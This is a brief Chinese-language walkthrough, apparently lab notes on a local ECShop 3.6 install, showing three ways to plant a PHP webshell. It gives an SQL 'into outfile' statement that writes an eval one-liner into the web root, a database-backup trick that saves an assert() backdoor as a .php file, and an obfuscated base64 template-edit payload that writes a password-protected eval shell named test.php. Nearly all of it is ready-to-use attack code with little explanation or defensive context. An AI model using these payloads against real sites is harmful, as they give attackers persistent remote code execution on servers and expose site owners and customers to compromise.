 1) 执行数据库命令拿webshell

```
select '<?php eval($_POST[cmd])?>' into outfile 'E:/phpStudy/PHPTutorial/WWW/www.ecshop36.com/ecshop/moon.php'
```

![image-20210503114541283](../acess/image-20210503114541283.png)

2) 数据库备份拿webshell

找一个数据表 插入一句话，再进行备份，备份的格式是.php;

插入一句话

```
<?php assert($_POST[cmd]);?>
```

写入一句话

![image-20210503114858320](../acess/image-20210503114858320.png)

备份![image-20210503115019354](../acess/image-20210503115019354.png)

http://www.ecshop36.com/data/sqldata/20180308yoqpfo.php;.sql

3) 代码执行拿webshell

访问http://www.ecshop36.com/admin/order.php?act=edit_templates，通过burp修改请求方法为post

![image-20210503115855064](../acess/image-20210503115855064.png)

添加一句话test.php  一句话的密码是a

```
FCKeditor1={$u'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJ3Rlc3QucGhwJyxiYXNlNjRfZGVjb2RlKCdQRDl3YUhBZ1FHVjJZV3dvSkY5UVQxTlVXeWRoSjEwcE96OCsnKSk7==')); //_var['}<?
```

打印订单

http://www.ecshop36.com/admin/test.php
